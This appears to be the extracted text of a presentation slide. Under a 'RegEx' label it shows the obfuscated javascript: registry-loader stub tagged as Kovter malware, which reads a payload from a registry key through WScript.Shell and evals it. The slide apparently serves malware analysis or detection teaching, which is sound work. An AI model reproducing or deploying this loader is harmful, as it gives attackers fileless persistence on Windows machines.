

RegEx :
javascript:d7hcQ4a="vn";n0a=new%20ActiveXObject("WScript.Shell");Rtf7j=
"HIPc";X18ycI=n0a.RegRead("HKCU\\software\\tN32795\\74gjfzcsfI");
jM5IV6m="QJ";eval(X18ycI);XIaL0uze="lYuLz1vG"
# KOVTER